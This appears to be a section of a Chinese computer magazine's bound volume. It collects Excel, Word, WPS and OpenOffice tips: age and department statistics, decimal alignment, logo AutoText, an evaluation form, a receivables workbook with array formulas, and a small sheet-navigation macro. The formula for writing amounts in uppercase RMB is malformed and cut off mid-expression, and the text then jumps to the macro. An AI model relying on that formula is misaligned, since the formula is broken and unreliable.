- DATEDIF("2001/6/1","2002/8/15","YD") 等于75，即在6月1日与8月15日之间有75天，忽略日期中的年。
- DATEDIF("2001/6/1","2002/8/15","MD") 等于14，即开始日期1和结束日期15之间的差，忽略日期中的年和月。

## 计算每位员工的年龄

通过每位员工的“出生日期”，可以用DATEDIF函数计算出每位员工的年龄。具体的操作步骤如下。
第一步：在“出生日期”列的右面插入1个空白列。
第二步：在E1单元格中输入“年龄”字样。
第三步：在E2单元格中输入公式“=DATEDIF(D2,TODAY(),"y")”，然后将该公式填充到E21单元格中。

## 确定不同年龄段员工人数

下面利用数组公式，计算公司不同年龄段的员工人数，具体的操作步骤如下。
第一步：绘制如图2所示的表格。

| 年龄段 | 员工人数 |
|---|---|
| 20岁以下 |  |
| 21-30岁 |  |
| 31-40岁 |  |
| 41-50岁 |  |
| 50岁以上 |  |

第二步：在I2单元格中输入数组公式“=SUM(($E$2:$E$21<=VALUE(MID(H2,1,2)))*1)”...第三步：在I3单元格中输入数组公式“=SUM(($E$2:$E$21<=VALUE(MID(H3,4,2)))*1)-SUM($I$2:I2)”...第四步：选中I3:I5单元格区域...第五步：在I6单元格中输入数组公式“=SUM(($E$2:$E$21>VALUE(MID(H6,1,2)))*1)”...

## 按部门计算员工人数

下面利用COUNTIF函数，计算公司不同部门的员工人数。具体的操作步骤如下。
第一步：绘制如图3所示的表格。

| 部门 | 员工人数 |
|---|---|
| 销售部 |  |
| 网络部 |  |
| 培训部 |  |
| 系统集成部 |  |

第二步：在 L2 单元格中输入公式 "=COUNTIF($F$2:$F$21,K2)" 后...此时，各部门员工的人数就一目了然了。

# Word按小数点对齐数字

在财务科，大家都说我的Word表格做得好，其实也没有什么，就是追求细节。例如Word表格中，小数点很难像Excel里那样对齐，打印出来就不好看，数字大小也很难一目了然，而我总是想法设法地对齐，特此总结一套经验给大家。

|  |
|---|
| 8.365 |
| 54555.09 |
| 353.8 |
| 99 |

首先，假设你有如图1所示的一张Word表格，选中需要按小数点对齐的表格列中的单元格。对该例而言，请选择整列数据。
单击“开始”选项卡，在“段落”组，单击对话框启动器。
在“段落”对话框中，单击“制表位”按钮。在“制表位位置”框中，为制表位键入所需的度量值（度量值以字符为单位，一个字符位可容纳两个半角的数字）。键入的度量值应根据表格中数字最大的整数位数来指定，比如对该例而言可键入2.5，因为最大的整数位数是5位数，而2.5字符正好是5个数字所占的位置。

|  |
|---|
| 8.365 |
| 54555.09 |
| 353.8 |
| 99 |

在“对齐方式”下，单击以选中“小数点对齐”复选钮；在“前导符”下，选中“无”复选钮；确定。
至此，Word表格中的数字即按小数点对齐了（见图2）。
最后强调一点，设置数字按小数点对齐之前，需要将这些数字设定为左对齐、两端对齐或分散对齐，而不能设置为居中对齐或右对齐。在设置了在制表位处对齐小数点后，文字或没有小数点的数字会向制表位左侧扩展。
以上操作笔者是在Word 2007中完成的，Word2003的“制表位”命令在“格式”菜单中，操作时请注意所用的Word版本。
（贾培武）

# Word 2007中的公司徽标快速输入

在工作中，你是不是要经常把公司的徽标等图画内容插入到Word文档。为此，你每次都得重复在图像处理软件中进行复制，然后在Word文档中粘贴这样的操作。在此，我们以Word2007为例，说说快速将公司徽标输入到文档中的两种方法。

## 文档部件

在Word2007中，我们可以使用“自动图文集”存储要重复使用的文本和图形，如标准合同条款、较长的通讯组列表或公司的徽标等。以下的操作将贵公司的徽标存储为一个“自动图文集”词条：
第一步：在文档中，选中要存储为可重复使用的文本或图形。在此，请单击公司的徽标以选中该图形。
第二步：单击“插入”选项卡，在“文本”组中，单击“文档部件”，然后单击“将所选内容保存到文档部件库”。
第三步：在“名称”框中键入构建基块的唯一名称，比如键入yuzhou，其他保持默认，单击“确定”按钮。
现在，公司的徽标就已经是一个名为yuzhou的“自动图文集词条”了。要将其插入到文档中，只要在“插入”选项卡上的“文本”组中，单击“文档部件”，然后在“常规”下，找到并单击yuzhou即可。如果“常规”下列出的词条过多不好查找，那么你可以单击“构建基块管理器”，然后单击“名称”以按名称排序，再找到并单击yuzhou，最后单击“插入”按钮。而且，在该对话框中，你还可以删除不再需要的词条。在定义了“自动图文集词条”后，首次关闭Word时，会提示你是否保存新构建基块，请“是”按钮进行保存。

## 自动更正

除了“文档部件”可以帮助你快速输入公司徽标外，还有一个更为简单的方法，即利用“自动更正”功能。以下操作将贵公司徽标定义为“自动更正”词条：
第一步：在文档中，选中所需要的文本或图形。单击“Microsoft Office按钮”，然后单击“Word选项”（见图）。
第二步：单击“校对”，然后单击“自动更正选项”按钮。
第三步：确认已经选中了“键入时自动替换”复选框。当选择的是文本时，该文本会出现在“替换为”下的方框中。由于我们选择的是图形，所以“替换为”框无显示，但实际上是有内容的。在“替换”下的方框中键入容易记忆且便于识别的文本，如yuzhou，单击“添加”按钮，则新增词条出现在下面的列表框中。
第四步：依次单击“确定”按钮，关闭各对话框。



至此，公司的徽标就已经是一个名为yuzhou的“自动更正”词条了。之后，当要将公司徽标插入到文档中时，只要键入yuzhou即可。如果本意是输入yuzhou，请在Word将键入内容自动替换为贵公司的徽标后，立即单击“撤销”按钮。或许，在你键入yuzhou时，Word没有自动将其替换为贵公司的徽标，那么请在键入一个“自动更正”词条名称时，要确保有前置空格、后置空格或标点符号。以上两法，由你自己选择使用。
（山东/王霞）

# 善用表格让办公更轻松

无论是企业财务人员，还是学校老师，工作中都会不可避免地遇到一大堆繁琐的表格。表格数据不但繁琐，而且手工录入也容易出错。有没有办法让WPS表格也帮忙一起录入和计算，省却我们重复性的工作呢？
其实WPS表格可不仅仅是一个填入数据的地方，它有许多强大的功能，可以让我们省却无谓的计算和没有意义的手工输入。

## 基本小技巧，输入更轻松

我们先来看看怎么做一份班级成绩单。一个50人的班，一个一个输入每个人的学号的话是个很庞大的工程，但是学号都是按自然数列排序的，因此使用WPS表格的一些基本小操作就能帮我们自动完成输入过程。
新建一个表格，在抬头输入“学号”、“姓名”、三科名称、“总分”等项目。
学号一栏，比如第一个学生的学号是“06308081”，在表格输入后却自动把最前面的“0”去掉了，这是表格显示数字的默认格式。那应该怎样把最前面的“0”显示出来呢？有两种办法：
很简单，在输入数字之前输入一个英文半角的单引号，如“06308081”，单引号后面的数字就会原样显示出来。
右击输入学号的单元格，选择“设置单元格格式”，在窗口中找到自定义，然后在右边选中最后一种类型。我们数一下，“06308081”有八位数字，因此输入“0#######”，也就是后面七位数字如实显示，前面再加一个0。
第一个学号输入完了，怎么让WPS表格帮我们填充余下的内容？把鼠标指针移到单元格右下角，鼠标指针变成“+”，然后往下拖，后面的学号就按顺序填好了。

## 基本公式助你计算

做成绩表时总要计算总分、平均分、最高分、最低分之类，如果一个一个用计算器算就实在太冤枉了。WPS表格有很多很实用的函数可以帮到我们。
我们先来计算每个人的总分，在第一行输入“总分”，然后在下面一行第一个同学的总分栏输入=SUM()，把光标移到括号里，再用鼠标选中该同学中英数三科分数，按回车，总分就算出来了。按照我们刚才说的方法把这个公式往下拖，很快WPS就帮我们计算了所有人的总分。
然后我们来计算最高分、最低分和平均分，它们的函数分别是MAX()、MIN()和AVERAGE()。只要用上面同样的方法就可以轻松算出。
有人说如果我不知道这些函数怎么办，其实WPS表格有无数的函数，我们不可能全部记住。要用的时候，我们只要点击输入栏的“fx”按钮，在弹出的窗口搜索自己需要的函数就可以了。

# 我来制作语文试卷

我多年来一直从事语文教学工作，也一直用电脑制作试卷。下面就和大家一起分享一下我用WPS 2009制作试卷的经验。

## 进行页面设置

选择“文件”菜单中的“页面设置”菜单项（或双击标尺），然后根据我们自己的习惯，一般是设置成横向8开纸，分左右两栏，页边距的设置如图1所示。


## 批量录入汉语拼音

我一般是内容用小四号宋体，问题使用小四号黑体（可以用格式刷修改）。把试卷中的文字内容全部录入。
低年级的语文试卷要给问题加上汉语拼音：选中要添加拼音的内容，选择“格式→中文版式”菜单项的“拼音指南”子菜单，设置偏量为6，拼音字号为12，其他选项默认即可。

## 制作田字格

低年级的语文试卷，汉字书写的检查是重要环节，这就需要添加田字格。
第一步：在文档中绘制两个矩形，选择“设置对象格式”中的“大小”选项卡，分别设置一个矩形的宽和高为10mm，另一个矩形的宽和高为5mm（见图2）。
第二步：放大文档显示比例为200%，调整两个正方形的一个顶角和两条边重合。通过小正方形的另两条边画两条长度为10mm的虚线。
第三步：删除小的正方形，组合两条虚线和大正方形。
田字格制作完成，复制田字格到需要的位置。多个田字格可用“绘图”工具栏中的“对齐或分布”菜单中的命令对齐。


## 添加写话（作文）“纸”

根据纸张大小（宽368mm），页边距（左右和装订线各20mm）和栏宽，在试卷最后插入一个2行15列（列宽10mm）的表格。
在表格中单击鼠标右键，在弹出的菜单中选择“表格属性”菜单项，调整第一行高度为4mm，第二行高度为10mm，行高值是“固定值”。
同时选中两行，在表格下复制、粘贴出需要的字符数。
之后就是“制作密封线和试卷头”，这部分可以在“页眉和页脚”中制作。注意：一般情况下把制作好的“制作密封线和试卷头”要旋转90度。最后，再根据试卷内容的多少，适当调整行间距，使整个试卷看上去更协调。
（李月林）

# OFFICE

《电脑爱好者》· 合订本 · 正文分册

# 老师是好是坏由你说了算！

对于教师教学质量评估的意义在于提高学生监督力度，促使老师提高自身素质和教学水平。在教务处工作的王老师需要定期向学生发放“教师教学质量调查表”，然后统计出每位老师的评估成绩，以此来量化老师的教学质量。如何利用Excel 2007制作调查表，并实现成绩的自动统计呢？

# 要解决的问题：

- 在“教师教学质量评估表”中，每个题目都包含“较差”、“一般”、“良好”和“优秀”4个选项，如何选择这些选项呢？
- 老师的评估成绩会影响其职称评定，可千万马虎不得！如何才能快速、准确地统计出老师们的评估成绩呢？
- 如何才能为学生提供一个下拉列表，以便于从中选出该份调查表所要评估的教师呢？
- 当学生将填写完成的“教师教学质量评估表”以附件形式发送给王老师时，他都得逐一打开Excel应用程序查看其评分结果，太麻烦了！

# 通过单选按钮选择优、良、中、差

在“教师教学质量评估表”中，每个题目都包含“较差”、“一般”、“良好”和“优秀”4个选项，为了方便同学们进行选择，王老师希望在评估表中提供用来进行选择的单选按钮(见图)，这时该如何操作呢？

以第1个评估题目为例，设置单选按钮的具体操作步骤如下。

- 第一步：调整题目所在行的行高，在C4单元格中输入评估题目，然后选中C4:H4单元格区域，在“开始”选项卡的“对齐方式”选项组中，单击“合并后居中”按钮，将单元格区域合并。然后先后单击“顶端对齐”按钮和“文本左对齐”按钮，将调查的题目显示在调查题目所在单元格的左上角。
- 第二步：打开“Excel选项”对话框，在“使用Excel时采用的首选项”选项区域中，选中“在功能区显示‘开发工具’选项卡”复选框。
- 第三步：打开“开发工具”选项卡，在“控件”选项组的“插入”下拉列表中，选择“表单控件”区域中的“选项按钮(窗体控件)”，在调查项目下方插入一组单选按钮。然后再从下拉列表中选择“分组框(窗体控件)”，将4个单选按钮划分到一个组中。



# 自动计算教师的评估分数

假设评估表的满分是100分，共有25个题目，每个题目4分，其中“较差”、“一般”、“良好”和“优秀”分别为1分、2分、3分和4分。如何根据学生选择的选项，自动计算出评估分数呢？

这时可以按照如下步骤进行操作，即可自动计算出每份评估表的分数。

- 第一步：右键单击列表框中任意一个单选按钮，从弹出的快捷菜单中执行“设置控件格式”命令，打开“设置控件格式”对话框。
- 第二步：将光标置于“单元格链接”编辑框中，单击工作表中的I4单元格，将控件与I4单元格相链接。设置完成后，组合框中其他单选按钮将自动链接到I4单元格，选中列表框中的“较差”、“一般”、“良好”或“优秀”，I4单元格的值将分别为1、2、3或4。
- 第三步：将调查题目列表框中的单选按钮控件逐一链接到在其右侧的I列单元格中。这样，学生选择的选项就可以在列相应单元格中体现出来了。
- 第四步：在H3单元格中输入用来计算总分数的公式=SUM(I:I)，即可得到该份评估表的总分。
- 第五步：选中I列，在“开始”选项卡的“字体”选项组中，打开“字体颜色”下拉列表，将该字体颜色设置为与背景相同的“白色”，使之隐藏起来即可。

# 通过下拉列表选择所要评估的教师

为了方便学生填写评估表，王老师希望在“班级”和“教师姓名”所在的单元格中添加下拉列表，以便从中选出所要评估的教师。当在“班级”下拉列表中选择不同的班级时，“教师姓名”下拉列表会提供该班对应的教师，如何实现这一功能呢？

这时可以按照如下步骤进行操作。

- 第一步：插入一个新工作表，并将其重命名为“教师管理”。
- 第二步：在“教师管理”工作表中输入所有班级，以及每个班级对应的教师姓名。
- 第三步：选中所有班级所在的B4:B6单元格区域，在编辑栏的名称框中输入“班级”，按Enter键，将该区域命名为“班级”。
- 第四步：按照类似的方法，将D4:D6、F4:F7和H4:H83个单元格区域分别命名为“计算机1班”、“计算机2班”和“计算机3班”。
- 第五步：打开“评估表”工作表，选中C2单元格，在“数据”选项卡的“数据工具”选项组中，单击“数据有效性”按钮，打开“数据有效性”对话框。在“允许”下拉列表框中选择“序列”，在“来源”文本框中输入“=班级”。此时就可以通过下拉列表选择“班级”信息了。
- 第六步：选中H2单元格，单击“数据有效性”按钮，在“允许”下拉列表框中选择“序列”，在“来源”文本框中输入“=INDIRECT(C2)”。设置完成后，Excel会根据学生在“C2”单元格中选择的班级，在“H2”单元格的下拉列表中自动筛选出该班级对应的教师姓名。

此时，如果在“教师管理”工作表中再添加数据，“评估表”工作表中的下拉列表并不能自动更新。如果希望下拉列表能够随着数据的增加而自动更新，可以将数据所在的单元格区域套用表的格式，随着表的自动扩展，名称所在的区域也会随之更新，这样就可以保持数据的同步了。

# 小提示：

INDIRECT函数用于返回由文本字符串所指定的引用，其语法结构为INDIRECT(ref_text,a1)，参数说明如下：
ref_text: 是对单元格的引用，此单元格可以是“A1”样式的引用、“R1C1”样式的引用、定义为引用的名称，也可以是对文本字符串单元格的引用。
a1: 是一个逻辑值，指明包含在单元格ref_text中的引用类型。如果a1为TRUE或省略，ref_text被解释为“A1”样式的引用；如果a1为FALSE，ref_text被解释为“R1C1”样式的引用。

# 智能化的邮件附件预览

当学生将填写完成的“教师教学质量评估表”以附件形式发送给教务处王老师时，他都得逐一打开Excel应用程序查看其评分结果，太麻烦了。Outlook 2007提供的附件预览功能，可以让您在不打开附件的情况下快速查看其包含的内容。

当教务处王老师接收到带有Office文档内容的附件时，Office Outlook 2007提供的附件预览功能，可以在Outlook 2007的“阅读窗格”或打开的邮件预览窗口中，直接预览文档的内容，并保持文档格式不变。

如果希望继续浏览邮件内容时，可在邮件阅读窗格或邮件预览窗口中，单击“邮件”按钮，即可返回到邮件正文。

# WPS中我的表格会武术，函数计算挡不住

看到标题，你一定以为我说的是ET (ET电子表格是WPS的组件，相当于Office中的Excel)，但如果我说是在WPS文字文档中的表格能进行函数、公式等计算，不仅要显示在WPS文字中，而且完全不用“初少表格计算插件”（“初少”版主是WPS高手，制作了很多WPS插件），还要实现像ET中一样多的公式和函数功能。我是在痴人说梦吗？不，WPS Office早就能实现这样的功能了，只是我们大多没有留意罢了。

| 边长1 | 边长2 | 边长3 | 周长 | 面积 | 类型 |
|---|---|---|---|---|---|
| 20 | 30 | 40 | 90 | 290.47 | 钝角三角形 |
| 30 | 40 | 50 | 120 | 600.00 | 直角三角形 |
| 20 | 20 | 20 | 60 | 173.21 | 等边三角形 |

如图所示是判断三角形周长、面积及类型的一个表格，其中用到了许多函数和公式，即使用初少版主开发的插件也对它毫无办法，而只能用ET来制作了。

但是，用ET制作后再复制到WPS文字中的话，结果会变成只是文本，当源数据发生改变时，后面的计算结果是不会随之变化的。如何才能把ET表格完美插入到WPS文字中呢？

首先，把光标定位在需要插入表格的位置，然后点击“插入→对象”，选择“新建→WPS表格 工作簿”，并确定。

此时，系统会调用ET并新建一个名为“在文档1中的工作簿”（如果WPS文档已经存盘，则将“文档1”替换成所保存的文件名）。然后你想做多复杂的表格、想用多深奥的函数都可以。表格制作完成后，设置好边框格式(ET默认不显示边框)，选中要在WPS文字中显示的单元格范围，再点一下浮在文档中的“设置显示区域”按钮，最后关闭ET。

关闭ET后，自动返回到WPS文字中，刚刚制作好的表格就显示在光标所在位置了。现在可以调整它的大小、边线颜色、填充色、绕排方式以及亮度、对比度等属性。双击这个表格，会再次调用ET来对其进行修改。

以上方法适合新建一个表格，如果需要利用现有的ET表格插入到WPS文字中，则在“插入对象”时，选择“由文件创建”，并用“浏览”按钮来选择需要插入的ET文件，其他操作与前面相同。

# 小提示：

在“浏览”按钮右侧有一个“连接”选项，选中此项则ET文件不会嵌入到WPS文档中。建议不要勾选此项，这样ET文件就会嵌入到WPS文字中，即使离开了ET源文件，也能正常使用表格。
(文/侯和林)


## 玩的就是专业: Excel打造客户往来款管理系统

在统计财务管理过程中,客户来往款处理是非常重要的工作之一,特别是涉及客户欠款管理的工作更是重中之重,这项工作涵盖了多个方面,包括客户资料、来往款明细以及欠款账龄分析等繁杂工作,而通过传统的记账方式操作起来效率非常低,其实通过Excel来设计一份智能的来往款管理系统,就完全可以胜任这方面的工作,让你的工作效率大大提高,下面就以某单位的客户来往款管理为例,来介绍具体的操作方法。

## 整理客户资料以及客户来往款明细表

作为客户来往款管理工作,其中很重要的一点就是客户基本资料的整理工作以及日常的来往款处理工作。启动Excel 2003,新建一个名为“客户来往款管理”的工作簿,在其中新建一个工作表,将其命名为“客户基本资料”,在其中输入客户名称、联系人、电话、负责人、地址等信息,同时为了以后的数据处理过程中,便于调用客户信息,需要将客户名称予以定义名称,定义名称时,执行“插入→名称→定义”命令,在弹出的定义名称对话框中,将名称文本框输入定义名称“客户名称”,引用位置设置为“=客户基本资料!$B$4:$B$29”。单击“确定”按钮。

为了处理日常客户来往款数据,新建一个工作表,将其命名为“来往款明细表”,在其中的B2:G2行中,输入客户名称、摘要、日期、借方、贷方、余额等列标题,然后选择客户名称所在的B3:B100区域,执行“数据→有效性”命令,在弹出的设置窗口中,将“设置”选项卡中有效性条件的“允许”设置为“序列”,“来源”框中输入“=客户名称”,单击“确定”按钮,同时在计算客户来往款余额的G3单元格中输入数组公式“{=SUM((B$3:B3=B3)*(E$3:E3))-SUM((B$3:B3=B3)*(F$3:F3))}”,并将此公式复制到下面的G3:G100区域中。

小提示:
此处的{=SUM((B$3:B3=B3)*(E$3:E3))-SUM((B$3:B3=B3)*(F$3:F3))}为数组公式,将{}中的公式输入后,不要直接按回车键,而是要同时按Ctrl+Shift+Enter组合键,这时系统自动会添加“{}”符号,此公式作用是自动将截止到当前日期的某客户来往款借方合计减去贷方合计。

这样当需要输入客户名称时,只要单击B3:B100列中的任一单元格,就会弹出下拉列表框,从其中选择需要的客户名称即可,然后在借方、贷方区域中输入来往款数据,其中借方为客户欠款数据,而贷方为客户还款数据,在后面的G3:G100区域中,会自动计算出当前客户欠款余额。

## 巧妙设计，自动分析欠款账龄

由于很多单位来往款比较多,而且由于种种原因,有的客户长期欠款不还,这时候就需要进行应收账款账龄分析,以便于及时进行财务分析以及催款,需要进行账龄分析,通过以下操作就可以非常方便地完成这项工作。

新建一个工作表,将其命名为“欠款分析”,在其中的C2单元格中输入公式“=NOW()”,以便于确定账龄分析的基准日期,如2009年8月23日,根据单位欠款账龄的分析需要,如将欠款分为1~30天、30~60天、60天以上几个时间段,然后在A3:J3区域中,输入单位名称、1~30天、30~60天、客户地址等列标题,同时为了便于账龄分析,在D3、F3单元格中输入“未还款”,然后将客户名称复制到B3:B100区域中。

小提示:
此处大量应用了不少公式,虽然看似复杂,其实也很简单,其中C4中的{=IF(D4>0,SUM((来往款明细表!B$3:B$100=欠款分析!B4)*($C$2-来往款明细表!D$3:D$100<=30)*(来往款明细表!E$3:E$100)))}用来计算1~30日未还欠款数据,D4中的{=IF(F4>0,SUM((来往款明细表!B$3:B$100=欠款分析!B4)*($C$2-来往款明细表!D$3:D$100>30)*($C$2-来往款明细表!D$3:D$100<=60)*(来往款明细表!E$3:E$100)))}用来计算30~60日未还欠款,F4中的{=SUM((来往款明细表!B$3:B$100=欠款分析!B4)*(来往款明细表!E$3:E$100))-SUM((来往款明细表!B$3:B$100=欠款分析!B4)*(来往款明细表!F$3:F$100))}则用来计算超过60日的未还欠款,I4、J4中的=IF(ISERROR(VLOOKUP(B4,客户基本资料!$B$3:$H$13,2,FALSE)),"",VLOOKUP(B4,客户基本资料!$B$3:$H$13,2,FALSE))是通过B4中的客户名称来引用“客户基本资料”表中的联系人以及联系电话信息。

## 让工作更高效，快速打印催款单

每到月末,当客户欠款数据统计完毕,就需要进行催款工作,而打印催款单也是不小的工作量,设计打印催款单表时,新建一个工作表,命名为“催款单”,在其中编辑一个催款单模板,如“致: XXXX, 截止到2009年8月23日贵公司尚欠货款额为: XXXX”,为了自动引用前面几个工作表的相关数据,采用前面的方法将存储欠款单位信息的B3单元格,设置其数据有效性的来源为“=客户名称”,存储客户欠款金额的E4单元格中输入公式“=IF($B$3="","",INDEX(欠款分析!H4:H100,MATCH($B$3,欠款分析!B4:B100,0)))”,而在存储大写金额的G4单元格中输入公式“="大写人民币:"&SUBSTITUTE(SUBSTITUTE(SUBSTITUTE(IF(E4<0,"负","")&TEXT(TRUNC(ABS(ROUND(E4,2))),"[DBNum2]")"元"&IF(ISERR(FIND(".",ROUND(E4,2))),"整",TEXT(RIGHT(TRUNC(ROUND(E4,2)*10),"[DBNum2]")"角"&IF(LEFT(RIGHT(ROUND(E4,2),3),3)=".00","",TEXT(RIGHT(ROUND(E4,3),2),"[DBNum2]")"分"),IF(ROUND(E4,2)=0,"",

```
Private Sub Worksheet_SelectionChange(ByVal Target As Range)
If Target.Count > 1 Then Exit Sub
If Intersect(Target, Range("c6:g6")) Is Nothing Then Exit Sub
If Target = "" Then Exit Sub
Sheets(Target.Value).Activate
End Sub
```

以上操作都是针对客户来往款管理进行的,其实利用以上操作思路以及相关公式,也可以应用在日常工作的其他方面,如存货管理、资金管理等等各个方面。

小提示:
此代码中的If Intersect(Target, Range("c6:g6")) Is Nothing Then Exit Sub作用是如果选择的单元格不在工作表名所在的c6:g6区域内,则退出程序。

最后单击“保存”按钮,关闭VBA编辑器,这样当单击“首页”工作表中的某个工作表名时,就会自动切换到相应的工作表上。

## Word文档打不开，缘是杀软对着干

## “许可权错误”造成无法保存

如果在保存Word文档时,你遇到了“许可权错误”,估计看过CFan的人,又正好安装的是卡巴斯基2009,那肯定知道怎么回事了。但如果是瑞星用户也遇到此类问题,解决方法是选择“设置→防御设置→自定义白名单”,在Word运行的情况下将WINWORD.EXE加入白名单即可。

## 文档打不开，又是杀软惹的祸

笔者最近遇到了一个小问题,有一个存档的Word文档打不开了,领导说前些天还在编辑这篇文章,今天突然就打不开了。只要双击运行该文档,在开启Word界面时,紧接着系统就会弹出错误提示。于是,笔者就立刻卸载并重新安装了一遍Office,在安装完毕后,找到该文档,双击打开,仍然是像重装Office之前的样子。在排除办公插件后,笔者注意到在每次打开Word文档时,准确地说是在文档内容显现之前,在Word界面的左下角都会有一个信息提示——“正在运行病毒扫描……”。目前很多杀毒软件都有嵌入Office的功能,它都会先于Word文档打开而进行病毒扫描,这就让我们找到了问题的根源,在仔细查看杀毒软件的状态后,发现杀毒软件的查杀病毒功能被破坏,而病毒库升级、防御列表等其他功能一切正常。在卸载并重新安装完杀毒软件,更新病毒库,并全盘杀毒保证终端内无病毒后,原有文档就可以正常打开了。

(北京/温耀男 江苏/傻文)

## Excel多工作表快捷输入两小招

笔者每月都要编辑一个Excel工作簿文件，该工作簿包含有十几张工作表。在编制报表过程中，笔者发现除了数值数据必须改动外，所有报表的一个共同的地方是需要修改为相同的内容，即J3单元格中都要输入编表日期。之前，笔者都是一张工作表一张工作表地修改J3单元格，后来笔者发现原来可以采用下述方法快速为每张报表输入编表日期。

## 键入法

如果尚未在任意一个工作表的J3单元格中输入日期，可以按下述步骤将日期输入到所有工作表中：
第一步：启动Excel 2007，并打开所需的工作簿。
第二步：右键单击工作表标签，然后单击快捷菜单“选定全部工作表”。
第三步：在当前活动工作表的J3单元格中输入“2009年11月30日”，并按回车键。该工作簿中的所有工作表的J3单元格，将同时输入“2009年11月30日”。

## 填充法

如果已经在某个工作表的J3单元格中输入了日期，那么可以按下述步骤将该日期填充到其他所有工作表中：
第一步：单击已经输入日期的工作表的标签，然后在按住Ctrl的同时单击要在其中填充数据的工作表的标签。如果看不到所需的标签，请单击标签滚动按钮以显示该标签，然后单击它。
第二步：在当前活动工作表中，选择包含已输入日期的J3单元格。
第三步：单击“开始”选项卡，然后在“编辑”组中，单击“填充”，再单击“成组工作表”。
第四步：在“填充”下，选择所需选项，比如选择“全部”，单击“确定”按钮。
以上两法各有千秋，就由你自己根据需要和喜好选择使用吧。
另外，使用“查找和替换”命令也可以完成这个任务。相信你也能够举一反三，能在多个工作表中同时输入其他相同内容的。

## 不用函数也能玩统计：快速录入、统计学生成绩

李老师需要录入学生的成绩，统计出全班参加考试的人数、平均分、最高分、最低分、各个分数段学生人数分布、每个学生月考的平均成绩等信息。可是李老师对Excel中的公式和函数一窍不通，如何在不用任何公式和函数的情况下，得出这些统计数据呢？
本文你将学会：
每次录入学生成绩时，都要按照学生的学号输入学生的姓名，有没有快速输入所有学生姓名的捷径？
在不使用函数的情况下，如何快速统计出考试的人数、全班平均分、最高分、最低分等信息？
在不使用函数的情况下，如何快速统计出各分数档的学生人数？
在不使用函数的情况下，如何快速找到平均成绩最高的学习小组？
在不使用函数的情况下，如何快速计算出每个学生4次月考的平均成绩？

## 快速输入学生姓名

每次考试后，李老师都需要录入并统计学生的成绩，每次都需要按照学号输入学生的姓名，有没有快速输入学生姓名的方法呢？
其实只要将学生姓名定义为一个序列，当需要按照学号输入学生姓名时，只需填充定义的序列即可。具体操作步骤如下。
第一步：打开包含学生姓名的工作簿，单击窗口左上角的“Office按钮”，单击“Excel选项”，打开“Excel选项”对话框。
第二步：在“使用Excel时采用的首选项”选项区域中，单击“编辑自定义列表”按钮，打开“自定义序列”对话框。
第三步：将光标置于对话框下方的编辑框中，选中含学生姓名序列的单元格区域，然后单击“导入”按钮，将学生姓名序列导入“自定义序列”列表中。
第四步：设置完成后，连续单击“确定”按钮，返回工作表。这时只需输入一个学生姓名，然后通过填充的方式，即可快速输入所有学生的姓名。

## 不使用函数：统计考试人数和平均成绩

成绩录入后，有一个问题摆在了李老师面前，他对Excel中的公式和函数一窍不通，怎样才能统计出参加考试的学生人数、平均成绩、最高成绩和最低成绩呢？
这时，只需选中成绩所在列，即可在状态栏中看到参加考试的人数和平均分数。
为了查看最高和最低的成绩，可以右键单击状态栏，在随即打开的快捷菜单中，选中“最小值”和“最大值”两个选项，即可在状态栏中看到相应的统计数据。

## 不使用函数：统计各分数段学生人数

学校教务处要求统计出60分以下、60～69、70～79、80～89，以及90～100各分数段的学生人数，逐个统计很费时间，也容易出错，有没有办法快速统计出各分数档的学生人数呢？
这时，李老师可以按照如下步骤进行操作，即可一次性地统计出各分数段的学生人数。
第一步：单击“Office按钮”，单击“Excel选项”按钮，打开“Excel选项”对话框。
第二步：在对话框左侧的选项栏中，单击“加载项”按钮，在该选项卡的“管理”下拉列表中选择“Excel加载项”，然后单击“转到”按钮，将其添加到“加载宏”对话框中的“可用加载宏”列表中。
第三步：在“可用加载宏”列表框中选中“分析工具库”复选框，此时即可在“数据”选项卡的“分析”选项组中看到“数据分析”按钮。
第四步：在工作表中输入用来划分成绩等级的分数线，然后单击“数据分析”按钮，打开“数据分析”对话框。
第五步：选中“分析工具”列表框中的“直方图”，打开“直方图”对话框。
第六步：在“输入”选项区域的“输入区域”编辑框中，输入或选择成绩所在的单元格区域“E2:E44”，在“接收区域”编辑框中输入或选择分数线所在的单元格区域“I3:I8”。选中“标志”复选框，然后选中“输出区域”单选按钮，并设置用来存放结果的单元格“G10”。
第七步：单击“确定”按钮，即可得到各个分数段的人数分布情况。从统计结果可以看出，本次考试共有5人不及格，9人分数介于60～69之间，6人分数介于70～79之间，10人分数介于80～89之间，9人分数介于90～100之间。

## 不使用函数：找出平均成绩最高的学习小组

为了增强同学们的集体荣誉感，提高学生们的学习兴趣，每次考试后，李老师都要对成绩最好的学习小组给予奖励。如何才能快速找出平均成绩最高的小组呢？
这时李老师可以按照以下步骤，快速统计出每个小组的平均成绩。
第一步：在“成绩汇总”表旁边，选中用来存放统计结果的“G3”单元格，在“数据”选项卡的“数据工具”选项组中，单击“合并计算”按钮，打开“合并计算”对话框。
第二步：在“函数”下拉列表中选择“平均值”，然后将光标置于“引用位置”编辑框中，选择“小组”和“成绩”列的单元格区域，然后选中“标签位置”选项区域中的“首行”和“最左列”复选框。即可统计出每个小组的平均成绩。

## 不使用函数：统计每个学生月考的平均成绩

李老师需要统计出每个学生在4次月考中的平均成绩，但是他连最基本的求平均值函数也不知道，他该怎么办呢？
其实，李老师可以利用Excel 2007中的自动计算功能，快速计算出每个学生在4次月考中的平均成绩。选中4次成绩所在的单元格区域，以及需要存放平均成绩的单元格区域，在“公式”选项卡的“函数库”选项组中，打开“自动求和”下拉列表，执行“平均值”命令，即可计算出所有学生4次考试的平均分数。
怎么样？谁说Excel只能用函数才能统计呢？不用函数照样成！

## 谷歌、OpenOffice 打造办公系统

出于诸多方面的考虑（包括安全、费用），不少单位如政府机关使用了免费的Linux操作系统，办公软件就换为了OpenOffice。可是美中不足的是，如果想和别人交换文件（这是办公的重要工作之一）就有点麻烦了。对于存有重要资料来说，U盘的丢失或者损坏都是非常恐惧的事情。怎么办呢？
我们知道，谷歌在线文档支持文档在线编辑和保存功能。如果这种优点能和OpenOffice优点相结合，那么就给OpenOffice增加了在线文档传输的新功能。顺便，谷歌在线文档支持多人共享和版本修订功能，多次修改之后文档不会出现混乱。那该多好呀。

第一步：下载插件 http://extensions.services.openoffice.org/project/ooo2gd，这个插件支持OpenOffice在谷歌在线文档中导入或导出文件。包含OpenOffice的ODT和Word的DOC等格式。
第二步：启动OpenOffice，单击“工具→扩展管理器”，将gdocs_1.7.2插件添加到OpenOffice。重新启动电脑，打开OpenOffice，就可以看到界面上多了一个可以用来上传和下载谷歌文档的图标。
